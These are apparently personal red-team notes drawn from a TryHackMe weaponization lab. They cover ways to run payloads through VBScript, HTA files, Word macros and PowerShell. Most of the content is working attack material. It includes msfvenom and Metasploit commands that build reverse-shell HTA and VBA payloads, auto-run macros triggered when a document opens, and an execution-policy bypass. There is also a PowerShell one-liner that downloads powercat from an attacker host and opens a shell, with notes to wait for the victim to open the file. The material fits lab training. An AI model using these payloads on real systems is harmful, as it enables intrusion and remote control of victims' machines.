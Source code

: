 ## Why using Macros Payload?
As security measures become more robust in organizations, executing payloads within controlled environments becomes increasingly challenging for red teamers. Since **.exe** files are often blocked or monitored, alternative techniques such as built-in windows scripting technologies are used. In this context, this task delves into some of the popular and effective scripting techniques, including WSH, HTA, VBA, and PSH, used by red teamers to execute payloads.

- Bypassing .exe Monitoring using WSH, HTA, VBA, PSH

## Windows Scripting Host (WSH)
It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit [here](https://en.wikipedia.org/wiki/VBScript). It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

**Create the code in the vbs or txt file**

- Specify the location of the executable we want to launch
```vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

- Exeptions (Some apps are in the default path, so no need to provide the initial executable location.)
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run "cmd.exe"
```


**Launch the file**

```shell-session
# Launch the vbs script from vbs file
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs

# Launch the vbs script from a .txt file
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

More information about VBSscript here ---> https://en.wikipedia.org/wiki/VBScript

## An HTML Application (HTA)
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.


**Reverse Shell**

MSFvenom -> Using hta (HTML)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=1234 -f hta-psh -o exploit.hta
```
- Let the victime open the following exploit.hta from Microsoft Edge (This will automaticly run the HTML/HTA element and give back a reverse shell)
- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Seciton An HTML Application - HTA)

Metasploit -> Using hta (HTML)
```
use exploit/windows/misc/hta_server
set LHOST IP
set LPORT 1234
set SRVHOST SAME-IP
set payload windows/meterpreter/reverse_tcp
exploit
```
- Let the victime open the following exploit.hta from Microsoft Edge (This will automaticly run the HTML/HTA element and give back a reverse shell) --> Using python server for example
- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Seciton An HTML Application - HTA)

## Visual Basic for Application (VBA) - Macros
VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.   

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications).

- Create/Run Macros (Microsoft Word)
	First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.
	
	![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5e12755e9b891865c6ef07e25047060b.png)  
	
	- Select a name, change the Macros in for "Document1" and click create
	
	Finally, run the macro by F5 or Run → Run Sub/UserForm.
	
	```VBA
	Sub Document_Open()
	  HACKING
	End Sub
	
	Sub AutoOpen()
	  HACKING
	End Sub
	
	Sub HACKING()
	   MsgBox ("You got Hack!")
	End Sub
	```
	
	It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.
	
	![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/a5e35b7436173da709dae5695c34d4f9.png)  
	
	Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Once enable the payload will be executed
	
	- Second Example with calc.exe
	```javascript
	Sub PoC()
		Dim payload As String
		payload = "calc.exe"
		CreateObject("Wscript.Shell").Run payload,0
	End Sub
	```
	- To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.
	
	**It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.**



**HTA Reverse Connection (Using Miscrosoft Word Macros)**

MSFvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f vba
```
- Insert the output in the Macros
- Change Workbook_Open() to Document_Open() ---> Workbook_Open() is for excel sheet

Setup Meterpreter reverse shell
```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT 1234
exploit 
```
- Now wait for the target to open the document

- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (Visual Basic for Application - VBA)

## PowerShell (PSH)
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).

Bypass policy (Help run powershell script)
```
Get-ExecutionPolicy                            ---> Check Policy

powershell -ex bypass
powershell -ex bypass -File something.ps1
```

Reverse shell using powercar
```
git clone https://github.com/besimorhino/powercat.git
```
- Open a python server (No need to download it on the target machine since "Launch Powercat" command will do it automaticly)

Launch Netcat
```
nc -lvp 1337
```

Launch Powercat (target)
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

- More infromation ---> <a href="https://tryhackme.com/room/weaponization">Tryhackme Module</a> (PowerShell - PSH)
